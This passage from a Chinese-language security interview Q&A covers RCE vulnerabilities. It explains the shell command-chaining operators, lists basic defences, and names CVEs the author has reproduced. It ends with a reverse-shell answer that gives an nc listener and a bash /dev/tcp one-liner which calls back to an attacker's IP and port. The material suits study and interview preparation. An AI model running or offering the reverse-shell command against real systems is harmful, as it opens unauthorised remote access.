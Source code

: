 >  
 前面的语句为假则执行后面的语句。 例如：commandA &amp; commandB 先运行命令A，然后运行命令B。 


### 3.||

>  
 前面的语句执行出错则执行后面的语句。 例如：commandA || commandB 运行命令A，如果失败则运行命令B。 


### 4.&amp;&amp;

>  
 前面的语句为假，直接出错，前面的语句为真，执行后面的语句。 例如：commandA &amp;&amp; commandB 运行命令A，如果成功则运行命令B。 


## 8、能讲一下RCE的防御措施吗？

>  
 1、尽量不要使用命令执行函数。 2、不要让用户控制参数。 3、执行前做好检测和过滤。 


## 9、你复现过哪些RCE漏洞，你会自己搭建漏洞环境吗？

>  
 我复现过很多漏洞，一般使用在线复现环境或者使用vulhub漏洞环境，如果找不到漏洞环境我会自己搭建环境。 


```
1、struts2全系列RCE漏洞。
2、solr远程命令执行CVE-2019-17558、CVE-2019-0193。
3、Log4j2远程代码执行漏洞复现cve-2021-44228。
4、Spring Framework远程代码执行漏洞CVE-2022-22965
5、Oracle WebLogic Server远程代码执行CVE-2022-21306
6、JBOSS反序列化漏洞复现CVE-2017-12149、CVE-2017-7504
......

```

## 10、一个站点存在RCE漏洞，如何getshell？

>  
 反弹shell就行了，我一般使用bash反弹shell，有时候也会用nc或者python。 举例： 本地我采用nc监听 


```
nc -lvvp 端口

```

>  
 远程执行命令 


```
bash -i &gt;&amp; /dev/tcp/本地监听IP/本地监听端口 0&gt;&amp;1

```

